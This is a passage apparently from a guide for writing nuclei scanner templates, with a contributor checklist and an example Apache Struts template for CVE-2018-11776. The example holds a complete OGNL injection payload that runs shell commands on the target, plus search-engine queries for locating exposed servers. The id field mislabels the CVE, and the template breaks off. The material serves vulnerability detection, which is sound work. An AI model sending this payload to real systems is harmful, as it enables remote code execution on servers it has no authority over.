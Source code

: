 - [ ] **Quality**
  - [ ] YAML syntax is valid
  - [ ] Follows nuclei template conventions
  - [ ] Includes appropriate tags and metadata
  
- [ ] **Testing**
  - [ ] Tested against vulnerable instance
  - [ ] Tested against non-vulnerable similar systems
  - [ ] Debug output reviewed for accuracy
  
- [ ] **Documentation**
  - [ ] Clear description of what template detects
  - [ ] Proper severity classification
  - [ ] Complete reference list

---

## Examples of High-Quality Templates

### **Complete CVE Template Example**
```yaml
id: CVE-2024-1234-apache-struts-rce

info:
  name: Apache Struts 2.x OGNL Code Injection
  author: your-github-username,original-researcher-handle
  severity: critical
  description: |
    Apache Struts 2.x before 2.3.34 and 2.5.x before 2.5.16 suffer from 
    OGNL injection vulnerability in the namespace value that allows remote 
    code execution.
  reference:
    - https://cwiki.apache.org/confluence/display/WW/S2-057
    - https://nvd.nist.gov/vuln/detail/CVE-2018-11776
    - https://seclists.org/fulldisclosure/2018/Aug/31
  classification:
    cvss-metrics: CVSS:3.0/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H
    cvss-score: 8.1
    cve-id: CVE-2018-11776
    cwe-id: CWE-94
  metadata:
    verified: true
    shodan-query: 'http.component:"Apache Struts"'
    fofa-query: 'body="struts" && title="Apache"'
  tags: cve,cve2018,rce,apache,struts,ognl,kev

variables:
  command: "whoami"
  marker: "{{rand_base(8)}}"

http:
  - method: GET
    path:
      - "{{BaseURL}}/${(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='{{command}}').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}/actionChain1.action"

    matchers-condition: and
```